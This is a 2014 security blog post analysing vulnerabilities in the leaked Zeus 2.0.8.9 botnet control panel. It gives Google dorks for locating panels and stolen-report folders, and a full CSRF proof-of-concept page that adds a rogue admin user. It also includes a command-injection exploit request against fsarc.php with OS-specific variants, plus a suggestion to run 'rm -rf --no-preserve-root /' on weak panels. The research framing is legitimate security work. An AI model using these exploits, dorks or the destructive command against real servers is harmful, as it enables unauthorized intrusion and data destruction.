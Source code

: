 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2014-02-14 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style="">
</div><div style="">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style="">
</div><div style="">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style=""></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files  - in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul>
<div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus1.png" src="https://z6543.github.io/_img/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus1.png" width="400"/></a></div>
<h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:
<div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;pre&gt;
  This is a CSRF POC to create a new admin user in Zeus admin panels.
  Username: user_1392719246 Password: admin1
  You might change the URL from 127.0.0.1.
  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  
&lt;/pre&gt;
&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;
    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;
 &lt;input name="name" type="hidden" value="user_1392719246" /&gt; 
 &lt;input name="password" type="hidden" value="admin1" /&gt; 
 &lt;input name="status" type="hidden" value="1" /&gt; 
 &lt;input name="comment" type="hidden" value="PWND!" /&gt;
 &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; 
 &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; 
 &lt;input name="r_reports_files" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;
 &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; 
 &lt;input name="r_stats_os" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_info" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_options" type="hidden" value="1" /&gt;
 &lt;input name="r_system_user" type="hidden" value="1" /&gt; 
 &lt;input name="r_system_users" type="hidden" value="1" /&gt;
    &lt;/form&gt;
&lt;script type="text/javascript"&gt;
 window.onload=function(){ 
  var counter = 10;
  var interval = setInterval(function() {
   counter--;
   document.getElementById('countdown').innerHTML = counter;
   if (counter == 0) {
    redirect();
    clearInterval(interval);
   }
  }, 1000);
 };
    function redirect() {
  document.getElementById("csrf-form").submit();
    }
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like GB/Big5, pretty unlikely.</li></ul>
<h3>Whats good news (for the C&amp;C panel owners)</h3>
The following stuff looks good, at least some vulns were taken seriously:
<ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul>
<h3>What's really bad news (for the C&amp;C panel owners)</h3>
And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a> through command injection (happy panda), but only for authenticated users (sad panda).

The vulnerable code is in system/fsarc.php:

<div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus2.png" src="https://z6543.github.io/_img/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus2.png" width="400"/></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){
   ...
   $archive .= '.zip';
   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';
   exec($cli, $e, $r);
}</pre>
The exploit could not be simpler: 
<pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1
</pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)
Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a> next time.

Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)

That's all folks!
Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )

<b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>